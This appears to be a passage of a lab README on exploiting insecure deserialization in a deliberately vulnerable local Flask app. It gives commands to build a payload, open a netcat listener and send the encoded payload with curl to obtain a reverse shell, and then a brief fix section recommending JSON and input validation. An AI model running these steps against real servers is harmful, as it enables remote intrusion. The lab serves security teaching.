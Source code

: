 
```
python create_payload.py
```

###


2. Start the Flask Application:
```
python app_vulnerable.py
```

###

3. Set Up the Listener with Netcat:

```
ncat -lvnp 4444   
```





###

4. 
Send the Payload to the Flask Application:


```
curl -X POST -d "user_id=1&session_data=<Base64_encoded_payload>" --output response.txt http://127.0.0.1:5000/set_session
```

Replace ***<Base64_encoded_payload>*** with the actual encoded string output from create_payload.py.



5. Trigger Deserialization:

```
curl -X POST -d "session_data=<Base64_encoded_payload>" --output response.txt http://127.0.0.1:5000/get_session
```
Replace ***<Base64_encoded_payload>*** with the actual encoded string from step 1.



Result:
If everything worked correctly, you should see a connection in your Netcat listener terminal, giving you a reverse shell.


Fixing the Vulnerability

To fix the vulnerability, ensure that deserialization of untrusted data is avoided. Use secure methods for serialization like JSON, and always validate and sanitize inputs.

##

The main differences between the vulnerable code and the secure code are related to how they handle serialization and deserialization of data, as well as input validation. Let's highlight the key differences:
